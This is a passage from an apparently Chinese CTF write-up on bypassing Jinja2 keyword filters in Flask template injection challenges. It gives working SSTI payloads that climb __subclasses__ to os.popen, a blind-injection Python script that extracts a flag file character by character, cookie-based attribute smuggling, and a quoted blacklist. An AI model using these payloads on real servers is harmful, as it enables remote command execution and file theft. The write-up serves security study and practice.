如果禁用`{{ }}`这种符号，同时保持上面符号的禁用。默认的Jinja分隔符配置如下：

```none
用于声明{{ ... }}用于将表达式打印到模板输出{# ... #}用于注释不包括在模板输出#  ... ##用于行语句
```

使用if的逻辑语句，由于不能直接用表达式打印，所以用以下布尔判断，循环pop中的值，得到334

```none
{%%20if%20((request|attr(("_"*2,"class","_"*2)|join)|attr(("_"*2,"mro","_"*2)|join)|list).pop(-1)|attr(("_"*2,"subclasses","_"*2)|join)()).pop(334)|string=="<class%20'os._wrap_close'>"%20%}111{%%20endif%20%}
```



但是最后获取的时候，需要对字符串进行截取，切片已经不能使用了，只能从字符串的方法中查找，可用的恰好有`index`，`find`，可以指定范围查找，比如`index`，指定范围从0开始，结束为1，如果为指定字符串返回正常，不然返回异常。

```none
{%%20if%20((((request|attr(("_"*2,"class","_"*2)|join)|attr(("_"*2,"mro","_"*2)|join)|list).pop(-1)|attr(("_"*2,"subclasses","_"*2)|join)()).pop(334)|attr(("_"*2,"init","_"*2)|join)|attr(("_"*2,"globals","_"*2)|join)).get('popen')('cat%20Th1s_is_F1114g').read()|string).index('n',0,1)%20%}{%%20endif%20%}
```

使用类似如下的盲注脚本

```none
# -*- coding: utf-8 -*-import requestsdef check(payload):    url = 'http://x.x.x.x:19009/user?name='+payload    r = requests.get(url)    if r.status_code == 200:        return Truepassword  = ''s = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$()<=>{|}_'for i in range(0,40):    for c in s:        payload = '{%%20if%20((((request|attr(("_"*2,"class","_"*2)|join)|attr(("_"*2,"mro","_"*2)|join)|list).pop(-1)|attr(("_"*2,"subclasses","_"*2)|join)()).pop(334)|attr(("_"*2,"init","_"*2)|join)|attr(("_"*2,"globals","_"*2)|join)).get("popen")("cat%20Th1s_is_F1114g").read()|string).index("'+c+'",'+str(i)+','+str(i+1)+')%20%}{%%20endif%20%}'         if check(payload):            password += c            break    print(password)
```

结果如下



#### flask 究极改

在把`join`禁掉，还有`format`，把`values`和`args`也禁掉，不能从其他参数获取，这样上面的绕过就算是不能用了。

```none
blacklist = ['__class__','__','[',']','join','values','args','format']
```

查找一个request有关系的属性，尝试`form`，比如支持POST方法的话。



利用cookie参数



利用请求头



连起来就是，获取object子类。

```none
{{((request|attr(request.cookies.get('aa'))|attr(request.cookies.get('bb'))|list).pop(-1))|attr(request.cookies.get('cc'))()}}Cookie: aa=__class__;bb=__mro__;cc=__subclasses__
```



### 回顾

在flask plus中，采用的是session对象来解决问题，虽然在上一题中采用的是元组对象，但是只是因为其中没有禁用join，如果在plus中也禁用了session，还能怎么处理。



但实际并没有这么理想



这里面能采用的还有哪些，比如

```none
{{(((redirect|attr('__cla'+'ss__')|attr('__mr'+'o__')|list)[-1]|attr('__subcla'+'sses__')())[342]|attr('__in'+'it__')|attr('__globals__'))['pop'+'en']('cat%20/Th1s_is_F1114g').read()}}
```



如果`attr`被禁用，这种也不能使用，或者能使用`__getattribute__`替代，但是原代码里已经禁用了。

文章参考：[Python沙箱逃逸总结](https://hatboy.github.io/2018/04/19/Python沙箱逃逸总结)，[Python沙箱逃逸的n种姿势](https://xz.aliyun.com/t/52)，[一文看懂Python沙箱逃逸](https://www.freebuf.com/articles/system/203208.html)，[Python格式化字符串漏洞](https://xz.aliyun.com/t/288)，[一文掌握CTF中Python全部考点](https://mp.weixin.qq.com/s/Lj4nCz0hag-AKQF_s79fQw)，[Jinja2 template injection filter bypasses](https://0day.work/jinja2-template-injection-filter-bypasses/)，[Flask/Jinja2模板注入中的一些绕过姿势](https://p0sec.net/index.php/archives/120/)